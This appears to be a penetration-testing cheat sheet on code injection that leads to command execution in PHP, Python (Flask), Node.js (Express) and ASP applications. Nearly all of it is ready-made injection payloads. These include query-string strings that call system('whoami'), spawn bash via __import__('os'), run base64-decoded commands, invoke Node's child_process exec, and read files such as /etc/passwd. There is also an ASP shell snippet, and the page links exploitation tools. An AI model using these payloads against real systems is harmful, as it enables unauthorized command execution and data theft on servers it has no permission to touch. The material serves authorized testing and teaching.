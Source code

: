 # Code Execution

## PHP

```php
...?arg="; system("whoami"); //       "
...?arg="; sleep(10); //       "
...?arg="."ha"."cker"."; // # Concatenate strings with the dot (.)
...?arg="./*leviswings*/" # A string between comments. If nothing comes out, it is normal, since it is commented.
...?arg=// # Use comments to see what happens.
```

## Python (Flask, etc.)

```python
...?arg="+os.system('whoami')+"
...?arg="+os.popen('whoami').read()+"
...?arg="__import__('os').system('bash')"
...?arg="+__import__('os').popen('whoami').read()+" # In case the OS module is not imported, we import it ourselves.
...?arg="+str(__import__('os').system(__import__('base64').b64decode('<BASE64 COMMAND>')))+"
```

## Node.js (Express.js)

{% hint style="info" %}
For more information about the Node.js process, you can use the functions, properties or global variables in the Node.js documentation: https://nodejs.org/api/process.html
{% endhint %}

{% hint style="danger" %}
If we are exploiting a website, the command we insert must be in URL encode, otherwise, it is very likely to give us an error.
{% endhint %}

```javascript
// fs class (list and read files):
require('fs').readdirSync('.').toString() // List actual directory
res.end(require('fs').readdirSync('.').toString())
require('fs').readdirSync('..').toString()
require("fs");fs.readdirSync("/app").toString('utf8')
require("fs").readdirSync('/etc/passwd')
require("fs");fs.readdirSync('/etc/passwd').toString('utf8')

// child_process module (command execution):
// The child_process module allows you to create child processes in Node.js. 
// There are 4 different ways to create a child process: spawn(), fork(), exec(), execFile.
require("child_process").exec('<COMMAND>') // Recordar que si hay espacios, hay que hacer un URL encode
require('child_process').execSync('<COMMAND>').toString(); // Output
(() => { return require("child_process").execSync("<COMMAND>;", { timeout: 5000 }); })(); // the timeout is to kill processes that take too long to finish
```

### Tools

We can also use `nodexp.py`, a **server-side Javascript injection** **tool** capable of detecting and exploiting Node.js vulnerabilities.

{% embed url="https://github.com/esmog/nodexp" %}

#### nodejsshell.py

{% embed url="https://raw.githubusercontent.com/carnal0wnage/exploits-1/master/nodejsshell.py" %}

#### nodejsscan

{% embed url="https://repo.telematika.org/project/ajinabraham_nodejsscan" %}

### References

[https://snyk.io/blog/5-ways-to-prevent-code-injection-in-javascript-and-node-js/](https://snyk.io/blog/5-ways-to-prevent-code-injection-in-javascript-and-node-js/)

{% embed url="https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet" %}

{% embed url="https://github.com/OWASP/NodeGoat" %}

{% embed url="https://nodegoat.herokuapp.com/tutorial" %}

## ASP

```aspnet
<%
Set objShell = CreateObject("WScript.Shell")
Set cmd = objShell.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
